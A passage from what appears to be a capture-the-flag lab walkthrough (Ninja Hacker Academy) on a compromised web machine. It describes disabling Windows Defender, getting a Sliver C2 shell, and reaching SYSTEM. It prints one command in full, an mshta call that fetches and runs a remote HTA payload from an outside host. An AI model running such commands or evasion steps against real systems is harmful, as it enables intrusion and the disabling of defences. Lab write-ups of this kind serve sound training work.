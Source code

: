 As soon as we have the shell, we are going to disable Defender which gives us the room to continue on this machine.

![Ninja Hacker Academy Bye Bye Defender](../assets/img/nha-guide/WEB01-nukeav.png)

Since we already turned Defender off, we can get another shell again.

![Ninja Hacker Academy Web Machine](../assets/img/nha-guide/WEB01-SliverC2.png)

> ***NOTICE**: For the readers that are paying attention the shell that just popped up if a "HTTPS" shell and not our previously used "SimpleLoader". This is because I want to highlight an awesome article written by [Youcef S Kelouz]( https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) called "Writing a SliverC2 Powershell stager with Shellcode compression and AES encryption".*

The command executed to get this shell is:

```shell
mshta.exe http://198.51.100.2/evil.hta
```

Since we also got `SYSTEM` on this machine, let's grab the flag. 

![Ninja Hacker Academy Web Machine](../assets/img/nha-guide/WEB01-system.png)
